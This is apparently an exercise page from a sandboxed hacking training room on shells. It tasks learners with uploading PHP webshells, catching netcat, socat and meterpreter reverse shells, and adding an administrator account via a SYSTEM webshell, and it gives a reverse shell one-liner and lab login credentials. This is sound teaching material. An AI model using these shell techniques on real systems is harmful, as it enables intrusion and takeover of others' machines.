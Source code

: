 This room contained a lot of information, and gave you little opportunity to put it into practice throughout. The following two tasks contain virtual machines (one Ubuntu 18.04 server and one Windows server), each configured with a simple webserver with which you can upload and activate shells. This is a sandbox environment, so there will be no filters to bypass. Login credentials and instructions for each will also be given, should you wish to log in to practice with netcat, socat or meterpreter shells.

The remainder of this task will consist of shell examples for you to try out on the practice boxes.

### Answer the questions below

1. Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.
    
2. Navigate to `/usr/share/webshells/php/php-reverse-shell.php` in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.
    
3. Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.
    
4. Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.
    
5. Look through [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and try some of the other reverse shell techniques. Try to analyse them and see *why* they work.
    
6. Switch to the Windows VM. Try uploading and activating the `php-reverse-shell`. Does this work?
    
7. Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.
    
8. The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.
    
9. Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.
    
10. Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.
    
11. Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with *netcat* -- does this work?
    

## Linux Practice Box

The box attached to this task is an Ubuntu server with a file upload page running on a webserver. This should be used to practice shell uploads on Linux systems. Equally, both socat and netcat are installed on this machine, so please feel free to log in via SSH on port 22 to practice with those directly. The credentials for logging in are:

* **Username:** shell
    
* **Password:** TryH4ckM3!
    

### Answer the questions below
